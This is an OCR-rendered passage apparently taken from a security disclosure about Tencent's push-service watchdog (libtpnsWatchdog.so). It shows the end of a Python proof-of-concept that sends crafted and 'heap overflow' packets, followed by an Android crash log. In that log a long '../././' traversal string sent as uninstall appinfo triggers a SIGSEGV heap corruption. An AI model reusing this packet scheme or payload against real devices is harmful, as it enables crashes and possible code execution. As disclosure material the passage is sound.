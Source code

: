 ```
           5: send normal tme:12345 packet
           6: send normal xgapplist: packet
        “”” % sys.argv[0]
        exit(-1)
    if(sys.argv[1] == “1”):
        send_debug()
    elif(sys.argv[1] == “3”):
        for i in range(518):  //notice！
            send_heap_overflow(i)
            print i
        exit(0)
    elif(sys.argv[1] == “4”):
        send_normal_packet(“ver:n”)
    elif(sys.argv[1] == “5”):
        send_normal_packet(“tme:12345n”)
    elif(sys.argv[1] == “6”):
        send_normal_packet(“xgapplist:n”)
    else:
        print “unkown packet type! “
if __name__ == “__main__”:
    main()          
Logcat
 
I/TpnsWatchdog(  495): server get unstall appinfo:com.tencent.wework,2100178384;../../../././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././.
I/TpnsWatchdog(  495): found 0, pkgName:com.tencent.wework,accid:2100178384
I/TpnsWatchdog(  495): try to add to the unstall list
F/libc    (  495): invalid address or address of corrupt block 0x4125f850 passed to dlfree
F/libc    (  495): Fatal signal 11 (SIGSEGV) at 0xdeadbaad (code=1), thread 495 (xg_watchdog)
I/DEBUG   (  241): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
I/DEBUG   (  241): Build fingerprint: ‘google/hammerhead/hammerhead:4.4.4/KTU84P/1227136:user/release-keys’
I/DEBUG   (  241): Revision: ’11’
I/DEBUG   (  241): pid: 495, tid: 495, name: xg_watchdog  &gt;&gt;&gt; /data/data/com.tencent.wework/lib/libtpnsWatchdog.so &lt;&lt;&lt;
I/DEBUG   (  241): AM write failure (32 / Broken pipe)
I/DEBUG   (  241): signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr deadbaad
I/DEBUG   (  241): Abort message: ‘invalid address or address of corrupt block 0x4125f850 passed to dlfree’
W/NativeCrashListener(  960): Couldn’t find ProcessRecord for pid 495
I/DEBUG   (  241):     r0 00000000  r1 40139c5e  r2 deadbaad  r3 4013d7a0
I/DEBUG   (  241):     r4 4125f850  r5 40148180  r6 4121c000  r7 4125f858
I/DEBUG   (  241):     r8 400cc0d9  r9 00000000  sl 00000000  fp bee458ec
I/DEBUG   (  241):     ip 00000001  sp bee41710  lr 4010b6cb  pc 4010b6cc  cpsr 600f0030
I/DEBUG   (  241):     d0  2064657373617064  d1  6120726f2073736c
I/DEBUG   (  241):     d2  6f20737365726466  d3  707572726f632072
I/DEBUG   (  241):     d4  2e2f2e2f2e2f2e2f  d5  2e2f2e2f2e2f2e2f
I/DEBUG   (  241):     d6  2e2f2e2f2e2f2e2f  d7  2e2f2e2f2e2f2e2f
I/DEBUG   (  241):     d8  0000000000000000  d9  0000000000000000
I/DEBUG   (  241):     d10 0000000000000000  d11 0000000000000000
I/DEBUG   (  241):     d12 0000000000000000  d13 0000000000000000
I/DEBUG   (  241):     d14 0000000000000000  d15 0000000000000000
I/DEBUG   (  241):     d16 41c3183f70f5e354  d17 3f50624dd2f1a9fc
I/DEBUG   (  241):     d18 41c05bc240800000  d19 0000000000000000
```